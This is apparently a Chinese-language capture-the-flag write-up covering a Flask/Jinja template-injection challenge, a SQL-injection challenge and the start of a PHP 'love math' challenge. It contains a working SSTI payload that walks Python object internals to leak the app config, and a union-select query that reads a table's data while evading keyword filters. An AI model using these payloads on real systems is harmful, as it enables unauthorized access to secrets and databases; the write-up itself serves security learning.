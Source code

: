 ```python
        blacklist = ['config', 'self']
        return ''.join(['{{% set {}=None%}}'.format(c) for c in blacklist]) + s

    return flask.render_template_string(safe_jinja(shrine))


if __name__ == '__main__':
    app.run(debug=True)

```



禁了括号和config和`__self__`,也就是不能命令执行

flag在config里,也就是说我们要找到config

刚开始不知道有啥没想到request,就一直在看`"".__class__`里翻来翻去,后来想到request就试了一下发现好东西

`{{request.__class__.__mro__[-3].__dict__['json_module'].__dict__['current_app'].__dict__['config']}}`拿到flag

 https://dormousehole.readthedocs.io/en/latest/templating.html 





### web1

广告申请广告名处存在sql注入,但是用union select 一直提示段数量不对,试了10多次后放弃了

过滤报错注入,or,猜测后端是`str_replace("xxxxxx","+","")`然后判断or是否在里面

消去空格,+

php5.6尝试截断攻击,在申请广告处无效

sql长度截断登陆admin账号,但是没用



最后看wp发现tm有20+的字段(写脚本写到一半就放弃了),至于or被过滤无法查询字段名等,可以用

```mysql
select * from flags where id='abcdd' union select 1,(select group_concat(b,e,f,g) from ( select 1 as e,2 as f,3 as g,4 as b union select*from flags) x ),3,4;
```

来查询,现在就差表名了

因为这是mariadb,可以用https://mariadb.com/kb/en/library/mysqlinnodb_table_stats/来查询表名





### love math



```php
<?php
error_reporting(0);
//听说你很喜欢数学，不知道你是否爱它胜过爱flag
if(!isset($_GET['c'])){
    show_source(__FILE__);
}else{
    //例子 c=20-1
    $content = $_GET['c'];
    if (strlen($content) >= 80) {
        die("太长了不会算");
    }
    $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]'];
    foreach ($blacklist as $blackitem) {
        if (preg_match('/' . $blackitem . '/m', $content)) {
```